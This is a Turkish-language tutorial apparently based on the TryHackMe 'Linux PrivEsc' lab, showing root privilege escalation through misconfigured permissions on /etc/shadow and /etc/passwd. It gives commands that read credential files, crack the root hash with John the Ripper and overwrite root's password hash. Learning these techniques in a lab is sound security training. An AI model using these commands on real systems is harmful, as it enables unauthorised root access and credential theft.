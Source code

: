 # Linux Privilege Escalation (Linux Yetki Yükseltme)

<figure><img src=".gitbook/assets/_37abf240-b5ba-43ed-a656-76b994160740.jpeg" alt="" width="375"><figcaption></figcaption></figure>

Hedef bir sisteme çeşitli şekillerde sızdıktan sonra sistem üzerinde tam bir yetkiye sahip olamayabiliriz. Çeşitli yöntemlerle sahip olduğumuz yetkileri yükseltebiliriz. Yöntemlerimizi test etmek için Try Hack Me üzerinden bulunan [Linux PrivEsc](https://tryhackme.com/r/room/linuxprivesc) labından göstereceğim.

Öncelikle labda bulunan makineyi çalıştırıyoruz ve çalıştıktan sonra bize verilen SSH bilgileriyle hedef sisteme bağlanmalıyız. Hedef sisteme `10.10.94.109` Ip adresiyle ulaşacağız. SSH bağlantısı için user ve password321  ikilisi kullanıcak.

`ssh user@10.10.94.109`

### Okunabilir /etc/shadow

Linux sistemlerinde kullanıcı bilgileri /etc/passwd dosyasında, kullanıcı hashleri /etc/shadow dosyasında depolanır. Normal bir sistemde sistem yada kullanıcılar hakkında kritik bilgileri normal bir kullanıcının okuyamaması lazım.

Linux sistemimizde `/etc/shadow` dosyasının sahip olduğu izinleri görmek için şu komutu çalıştırıyoruz ve şu çıktıyı alıyoruz:

```
user@debian:~$ ls -al /etc/shadow

-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```

/etc/shadow dosyası üzerinde okuma ve yazma yetkimiz olduğunu görüyoruz. Güvenli bir sistemde bu izinlere sahip olmamız gerekiyor.

/etc/shadow dosyasında bulunan hash değerini okuyup John The Ripper yada Hashcat gibi araçlarla hash değerini kırmayı deneyebiliriz.

```
user@debian:~$ cat /etc/shadow

root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
...........................
```

Dosyayı okuduğumuzda root kullanıcısının şifre hash değerine ulaşıyoruz. `$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0` hash değerini kendi makinemizde hash.txt dosyasının içine ekliyoruz.&#x20;

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Bu işlem sonucunda hashlenmiş şifre değerine ulaşıyoruz: `password123`

Elde ettiğimiz şifre ile artık root olabiliriz.&#x20;

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p>Şifre kısmında elde ettiğimiz şifreyi giriyoruz "password123"</p></figcaption></figure>

Root yetkilerine sahip olduktan sonra diğer yöntemlerle yetki yükseltmek için root yetkisinden `exit` komutuyla çıkıyoruz.

### Yazılabilir /etc/shadow

/etc/shadow dosyası üzerinde okuma ve yazma yetkilerimiz olduğunu görmüştük. Her zaman elde ettiğimiz hash değerini kıramayabiliriz. Bu yüzden var olan hash değerini kendi oluşturacağımız hash değeriyle değiştirebiliriz.

Öncelikle `mkpasswd -m sha-512 <newPassword>` komutuyla yeni bir hash değeri elde edebiliriz.

Metin editörleriyle birlikte /etc/shadow dosyası açılıp root kullanıcısının sahip olduğu hash değeri değiştirilip kaydedilir. Sonrasında su root yaparak kendi oluşturduğumuz şifreyle root yetkilerine sahip olacağız.

```
root@ip-10-10-63-77:~/Desktop# mkpasswd -m sha-512 yavuz
$6$2OGh.AKPtUIfLWD$62aars53c2GpdNPeeLwB5pfqdstcsKUhZLPhobwiyXXehe2uL8NllzXtMgu2icxgFAJoD/H8YiPc1z9epn1430

// Eski /etc/shadow dosyası
user@debian:~$ more /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
................................

// Hash değerini güncelledikten sonra /etc/shadow dosyası
user@debian:~$ cat /etc/shadow
root:$6$2OGh.AKPtUIfLWD$62aars53c2GpdNPeeLwB5pfqdstcsKUhZLPhobwiyXXehe2uL8NllzXtMgu2icxgFAJoD/H8YiPc1z9epn1430:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
................................
```

### /etc/passwd

/etc/passwd dosyası kullanıcılar hakkında bilgileri barındırır. Yetkisiz bir kullanıcı bu içeriği okuyabilir ama üzerinde yazma yetkisine sahip olmaması lazım. Bizim hedef sistemimizde /etc/passwd dosyası üzerinde ne yetkilerimiz var bakalım.

```
user@debian:~$ ls -al /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
```

Dosya üzerinde yazma yetkisine sahibiz. Eski Linux sürümlerinde şifre hashleri /etc/passwd dosyalarında depolanırdı. Bazı sürümlerde hala bu durum geçerlidir.

cat komutuyla /etc/passwd dosyamızı okuyalım ve dosya yapısını görelim.

```
user@debian:~$ cat /etc/passwd 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
........................
```

root kelimesinden sonra gelen x karakteri /etc/passwd dosyasında şifre içermediğini, /etc/shadow dosyasında bu kullanıcı ile ilgili şifre olabilir anlamına geliyor. x değerini silip buraya hashlenmiş şifre değerini eklersek bizim sahip olacağız yeni root şifresi bu olacaktır.&#x20;

`mkpasswd -m sha-512 yavuzkuk55` komutuyla yeni hash değeri oluşturuluyor. /etc/passwd dosyasında bulunan x değeri kaldırılıp elde ettiğimiz hash değeri eklenmiştir.&#x20;

```
user@debian:~$ cat /etc/passwd

root:$6$PO6v6WfO$k4pUdK.o9nLWcqpalwU.oX3slTdCzfd6mwQ8LRraAUYflxWYUvNVQiQz9NWRKnKJ6bsebKIiskl6ijux2R6EC.:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

`su root` komutu yazdıktan sonra oluşturduğumuz şifre ile sisteme root yetkileriyle giriş yapabiliriz.

***

